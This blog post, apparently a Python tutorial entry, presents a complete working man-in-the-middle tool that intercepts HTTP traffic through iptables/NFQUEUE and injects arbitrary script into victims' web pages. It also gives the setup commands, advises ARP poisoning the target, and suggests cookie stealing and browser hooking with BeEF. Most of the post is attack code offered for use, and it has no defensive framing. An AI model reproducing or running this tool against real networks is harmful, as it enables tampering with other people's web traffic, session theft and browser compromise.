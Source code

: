 ```yaml
---
title: A Code Injector program
date: 2021-07-29 09:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A program to injects arbitary code  into the response of a HTTP request.
---
```



<p align="center">
 <img src="https://pbs.twimg.com/media/EXiXVKVXsAA5uO7?format=jpg&name=small">
</p>


## This is a python script that injects arbitary code (JS,HTML,PHP...) into the response of a HTTP request.

* The program works only on HTTP sites.
* We use IPTABLES to build a queue to intercept traffic. Based on INPUT(inboud traffic),OUTPUT(outbound traffic) and FORWARD(traffic from remote hosts).
The program automatically runs these commands, if it dosen't work for some reason, run the following commands to build a queue alongside when running the program -
    > `iptables -I INPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for inbound traffic.
   
    > `iptables -I OUTPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for outbound traffic.
    
    > `iptables --flush` --> flush rules after completion.
* We filter the traffic like an intercepting proxy would to filter and modify HTTP responses for the target site to inject our malicious script just before the __\<body\>__ tag of the HTML response source. Many avenues of attacks can be performed like browser hooking, cookie stealing etc by using external frameworks like BEEF.
* While altering the response one thing to note is that the injected code gets cut off due to the "Content-Length" limitations. Hence we alter the Content-Length too by adding the length of the injected code to the original Content-Length.


### Code:

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import argparse
import re


# Parse Args
def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-f", "--file-to-inject", dest="file", help="File/Code to Inject", type=str)
    options = parser.parse_args()
    if not options.file:
        # code to handle error
        parser.error("\n[-] Please specify a valid file with code to inject(js,HTML,php...),  use --help for info.")
    File = open(options.file, 'r')
    f = File.readlines()
    code = ""
    for line in f:
        code += line.strip()
    return(code)

# Alter packets load
def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
    del packet[scapy.IP].chksum
    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        #print(scapy_packet.show())
        try:
            load = scapy_packet[scapy.Raw].load.decode()
            if scapy_packet[scapy.TCP].dport == 80:
                print("\n[+] Request from: " + scapy_packet[scapy.IP].src)
                load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
            elif scapy_packet[scapy.TCP].sport == 80:
                print("[+] Response from: " + scapy_packet[scapy.IP].src)
                injection_code = code
                # Appends injected code before terminating </body> tag
                load = load.replace("</body>", injection_code + "</body>")
                # Capture non capturing groups and use non capturing regex --> (?:...)
                content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
                if content_length_search and "text/html" in load:
                    content_length = content_length_search.group(1)
                    new_content_length = int(content_length) + len(injection_code)
                    load = load.replace(content_length, str(new_content_length))
            # Exec if load is modified
            if load != scapy_packet[scapy.Raw].load:
                print("[!] Response Injected!")
                new_packet = set_load(scapy_packet, load)
                packet.set_payload(bytes(new_packet))
        # Irrelevant HTML data
        except UnicodeDecodeError:
            pass
    packet.accept()

print("""
                              (                                       
   (          (           )\ )                        )           
   )\         )\ )   (   (()/(       (     (       ( /(      (    
 (((_)   (   (()/(  ))\   /(_)) (    )\   ))\  (   )\()) (   )(   
 )\___   )\   ((_))/((_) (_))   )\ )((_) /((_) )\ (_))/  )\ (()\  
((/ __| ((_)  _| |(_))   |_ _| _(_/(  ! (_))  ((_)| |_  ((_) ((_) 
 | (__ / _ \/ _` |/ -_)   | | | ' \))| |/ -_)/ _| |  _|/ _ \| '_| 
  \___|\___/\__,_|\___|  |___||_||_|_/ |\___|\__|  \__|\___/|_|   
                                   |__/                           
""")

print("[-] Specify a file to inject code from to poison any HTTP websites source.\n\n")
print("[NOTE:] To sniff a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
print("""
[!] Run the following commands as root before using this program to setup IPTABLE rules.

1. iptables -I OUTPUT -j NFQUEUE --queue-num 0
2. iptables -I INPUT -j NFQUEUE --queue-num 0
3. echo 1 > /proc/sys/net/ipv4/ip_forward

""")

try:
    code = get_arguments()
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(0, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n\n\n Exiting Program!")
```

### Output:

_Attacker:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject3.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject4.png)


_Victim:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject1.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject2.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject5.png)

